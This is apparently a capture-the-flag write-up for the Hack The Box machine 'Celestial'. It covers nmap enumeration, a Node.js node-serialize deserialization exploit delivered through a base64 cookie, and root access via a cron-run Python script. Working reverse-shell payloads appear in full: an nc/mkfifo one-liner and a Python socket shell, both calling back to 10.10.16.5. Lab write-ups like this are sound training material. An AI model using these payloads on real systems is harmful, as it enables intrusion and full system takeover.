





# Celestial
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.85                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 16:43 BST
Nmap scan report for 10.10.10.85 (10.10.10.85)
Host is up (0.15s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.38 seconds
```

- Web Server



## Foothold/User
- If refresh the page, we have a `base64`-encoded cookie and a response `Hey Dummy 2 + 2 is 22` 
  - Which is decoded in my case as: `{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}`



- We could try `deserialization` attack on `NodeJS`
  - https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e
  - https://exploit-notes.hdks.org/exploit/web/security-risk/nodejs-deserialization-attack/
  - https://book.hacktricks.xyz/pentesting-web/deserialization#node-serialize
  - https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```                                                                                       
let y = {
 rce: function() {
  require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout); });
 },
};
let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

- Now create a payload using `node`
  - 
```
└─$ node serialize.js | tail -n 1
{"rce":"_$$ND_FUNC$$_function() { require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout);});}"}  
```
- We have to add `()` to the end of the payload, so that it will be invoked
```
_$$ND_FUNC$$_function() { require('child_process').exec('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 6666 >/tmp/f', function(error, stdout, stderr) { console.log(stdout);});}()
```

- We have to encode it to `base64` and send it,
  - It will give an error that `username` is not valid, yet we should still receive our shell
  - We could also set any of the parameters of the cookie to our payload and send it, it should work
  - Launch a listener, set the cookie to payload and send


## Root
- For `sudo` we need password 
```
sun@celestial:~$ id
uid=1000(sun) gid=1000(sun) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
sun@celestial:~$ sudo -l
[sudo] password for sun: 
```

- We have a script in `Documents` directory
```
sun@celestial:~$ ls -lha Documents/
total 12K
drwxr-xr-x  2 sun  sun  4.0K Sep 15  2022 .
drwxr-xr-x 21 sun  sun  4.0K Oct 11  2022 ..
-rw-rw-r--  1 sun  sun    29 Oct 18 11:34 script.py
lrwxrwxrwx  1 root root   18 Sep 15  2022 user.txt -> /home/sun/user.txt
sun@celestial:~$ cat Documents/script.py 
print "Script is running..."
```

- Could be cron, considering the file `output.txt` which has the same output
  - Running `pspy` proves that
  - The script is run by root



- Let's write to `script.py`
  - Payload from https://www.revshells.com/
```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.5", 7777));os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")
```

- Wait for execution and get the flag

